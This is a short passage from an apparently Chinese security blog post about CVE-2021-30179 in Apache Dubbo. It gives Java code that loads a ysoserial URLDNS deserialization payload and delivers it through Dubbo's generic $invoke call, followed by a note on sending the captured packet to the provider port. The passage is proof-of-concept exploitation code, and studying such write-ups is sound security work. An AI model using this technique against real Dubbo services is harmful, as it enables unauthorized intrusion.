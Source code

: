 ```java
        byte[] b = null;
        try {
             b = getContent("D:\\渗透\\ysoserial\\target\\urldns_exp");
        }catch(Exception e){
            e.printStackTrace();
        }
        // generic invoke
        GenericService genericService = (GenericService) demoService;
        Object genericInvokeResult = genericService.$invoke("sayHello", new String[] { String.class.getName() },
                new Object[] { b });

```

抓包看了下，看到开头的`dabb`就知道是Dubbo协议了，直接发到provider的端口
![](/img/in-post/CVE-2021-30179/2.png)
